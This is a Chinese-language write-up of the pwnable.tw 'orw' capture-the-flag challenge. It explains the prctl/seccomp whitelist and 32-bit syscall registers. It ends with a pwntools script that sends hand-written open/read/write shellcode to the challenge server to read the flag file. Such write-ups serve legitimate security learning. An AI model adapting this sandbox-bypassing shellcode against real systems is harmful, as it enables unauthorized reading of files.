



# ORW

检查程序保护


反汇编



orw_seccomp:




刚拿到题目的时候，并没有看明白orw_seccomp这个函数在干什么，以为只是一个简单的shellcode系统调用的题目，经过尝试，很显然的失败了，经过查阅资料发现prctl这个函数的作用

**prctl(38,1,0,0,0)表示禁用系统调用execve()函数，同时，这个选项可以通过fork()函数和clone()函数继承给子进程。**

- 第一个参数为38，第二个参数为1时，禁用execve且子进程一样

**prctl(22, 2LL, &v1)**

- 第一个参数为22
- 第二个参数为1时，只允许调用read/write/_exit(not exit_group)/sigreturn这几个syscall
- 第二个参数为2时，则为过滤模式，其中对syscall的限制通过参数3的结构体来自定义过滤规则

这种沙箱过滤模式有机会可以深入学习一下

## 工具seccomp-tools

用工具`seccomp-tools`能更直观更便捷的查看这个“白名单”。

安装seccomp-tools步骤(环境Ubuntu 20.04)：

```shell
sudo apt-get update
sudo apt-get install software-properties-common
sudo apt-add-repository ppa:brightbox/ruby-ng
sudo apt-get install ruby2.6 ruby2.6-dev
sudo gem install seccomp-tools

```

终端执行命令 查看‘’白名单‘’

```shell
[baize@pwn ~/forPwn/pwnable/orw]$ seccomp-tools dump ./orw   
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
 0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
 0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
 0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
 0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW

```


## 解题思路

既然只能用三个函数open，read，write，那么就直接读falg这个文件，其实题目本身已经给了提示



那现在就需要搞清楚这三个函数在系统调用的时候寄存器的含义即可，然后手写shellcode

### 关于系统调用

对于32位来说：

```
系统调用号：EAX

参数：EBX、ECX、EDX、ESI、EDI、EBP

返回值：EAX
```

对于64位来说：

```
系统调用号：RAX

参数：RDI、RSI、RDX、R10、R8、R9

返回值：RAX
```

对于我们的ORW（32位）来说：

| 系统调用号:eax | Name      | args1:ebx             | args2:ecx | args3:edx    |
| :------------- | :-------- | :-------------------- | :-------- | :----------- |
| 3              | sys_read  | unsigned int fd       | char *buf | size_t count |
| 4              | sys_write | unsigned int fd       | char *buf | size_t count |
| 5              | sys_open  | char __user *filename | int flags | int mode     |

## Do it！

```python
from pwn import *
import time 


#sh = process('./orw')
#gdb.attach(sh)
#sleep(15)

sh = remote('chall.pwnable.tw',10001)
sh.recvuntil('Give my your shellcode:')

# path = '/home/orw/flag'

asmopen = '''
mov eax,5
xor ecx,ecx
xor ebx,ebx

push 0x00006761
push 0x6c662f77
push 0x726f2f65
push 0x6d6f682f

mov ebx ,esp
int 0x80
'''
#小端存路径


asmread = '''  
mov ebx,eax
mov eax,0x3 
mov ecx ,esp
mov edx,0x100
int 0x80
'''
#ebx = eax 文件指针 
#eax = 3调用号
#ecx 读取数据的缓冲区
#edx 读取大小

asmwrite = '''
mov eax,0x4
mov ebx,0x1
mov edx,0x100
int 0x80
'''


sh.sendline(asm(asmopen)+asm(asmread)+asm(asmwrite))
sh.interactive()
```


## 总结：

多观察，多思考。遇到走不通的地方一定是自己漏掉了什么，及时换思路，去查阅相关资料。

虽然这段shellcode可以让pwntools这个强大的工具代写，但作为初学者，我认为还是少用工具的好，多研究研究底层实现，自己动手多写写。